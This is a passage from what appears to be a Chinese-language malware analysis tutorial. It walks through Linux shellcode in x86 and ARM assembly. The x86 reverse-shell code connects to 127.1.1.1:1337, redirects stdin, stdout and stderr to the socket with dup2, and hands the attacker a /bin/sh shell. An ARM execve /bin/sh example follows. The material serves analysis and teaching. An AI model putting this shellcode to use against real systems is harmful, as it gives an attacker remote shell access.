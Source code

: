 汇编代码将如下所示：

```
push 0x0101017f ; sin_addr=127.1.1.1 (network byte order)
xor ecx, ecx
mov cx, 0x3905
push cx      ; sin_port=1337 (network byte order)
inc ebx
push bx      ; sin_family=AF_INET (0x2)
mov ecx, esp    ; save pointer to sockaddr struct
push 0x10      ; addrlen=16
push ecx      ; pointer to sockaddr
push edx      ; sockfd
mov ecx, esp    ; save pointer to sockaddr_in struct
inc ebx      ; sys_connect (0x3)
int 0x80      ; exec sys_connect
```

1.  `dup2` 会将标准输入、输出和错误输出重定向到 socket。以下是该步骤的汇编代码：

    ```
      push 0x2
      pop ecx       ; set loop counter
      xchg ebx, edx ; save sockfd
    ; loop through three sys_dup2 calls to redirect stdin(0), stdout(1) and stderr(2)
    loop:
      mov al, 0x3f  ; sys_dup2 systemcall ID
      int 0x80
      dec ecx       ; decrement loop-counter
      jns loop      ; as long as SF is not set -> continue
    ```

在前面的代码中，shellcode 将 `stdin (0)`、`stdout (1)` 和 `stderr (2)` 替换为 `sockfd`（即 socket 句柄），从而将任何输入、输出和错误分别重定向到攻击者。

1.  如我们在上一节中看到的，`execve` 调用使用 `/bin/sh`。

现在，你已经看到了更高级的 shellcode，你可以理解大多数知名的 shellcode 以及它们背后的方法论。对于绑定 shell 或下载并执行 shellcode，代码非常相似，且使用类似的系统调用，可能只有一两个额外的函数。在分析 shellcode 时，你需要先了解每个系统调用的定义以及它需要的参数。

这就是 x86（32 位和 64 位）的情况。现在，让我们简要看一下 ARM shellcoding 及其与 x86 之间的区别。

## ARM 的 Linux shellcode

ARM 系统上的 shellcode 与使用 x86 指令集的 shellcode 非常相似。实际上，ARM 上的 shellcode 编写起来更加简单，因为不需要使用 call/pop 技术或 `fstenv` 来获取绝对地址。在 ARM 汇编语言中，你可以直接从代码中访问程序计数器寄存器 (`pc`)，这使得编写代码变得更为简单。与 `int 0x80` 或 `syscall` 不同，ARM shellcode 使用 `svc #0` 或 `svc #1` 来执行系统函数。以下是一个用于执行本地 shell 的 ARM shellcode 示例：

```
_start:
  add r0, pc, #12 
  mov r1, #0
  mov r2, #0
  mov r7, #11 ; execve system call ID
  svc #1
.ascii "/bin/sh\0"
```
